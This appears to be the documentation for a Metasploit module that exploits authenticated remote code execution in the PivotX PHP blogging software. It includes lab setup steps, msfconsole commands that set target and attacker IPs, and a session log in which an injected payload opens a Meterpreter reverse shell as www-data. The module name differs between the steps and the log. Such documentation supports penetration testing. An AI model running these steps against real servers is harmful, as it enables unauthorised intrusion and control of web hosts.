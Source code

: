 ## Vulnerable Application

PivotX is free software to help you maintain dynamic sites such as weblogs, online journals and other frequently updated websites in general.
It's written in PHP and uses MySQL or flat files as a database.

Install steps:

1. Install Apache2, MySQL, PHP8.2+
1. `git clone https://github.com/pivotx/PivotX.git`
1. Move `PivotX` to webfolder
1. Run the following from the web folder `sudo chown -R www-data:www-data ./`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/pivotx_rce`
1. Do: `set USERNAME [PivotX username]`
1. Do: `set PASSWORD [PivotX password]`
1. Do: `set RHOSTS [target IP]`
1. Do: `set LHOST [attacker IP]`
1. Do: `run`

## Options
### USERNAME

PivotX username.

### PASSWORD

PivotX password.

## Scenarios

```
msf exploit(linux/http/pivotx_index_php_overwrite) > run verbose=true 
[*] Started reverse TCP handler on 192.168.168.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected PivotX 3.0.0.pre.rc3
[*] Logging in PivotX
[*] Modifying file and injecting payload
[*] Triggering payload
[*] Sending stage (40004 bytes) to 192.168.168.146
[*] Meterpreter session 1 opened (192.168.168.128:4444 -> 192.168.168.146:36104) at 2025-08-01 09:38:52 +0200

[*] Restoring original content

meterpreter > 
meterpreter > sysinfo
Computer    : ubuntu
OS          : Linux ubuntu 6.8.0-52-generic #53~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Wed Jan 15 19:18:46 UTC 2 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data

```
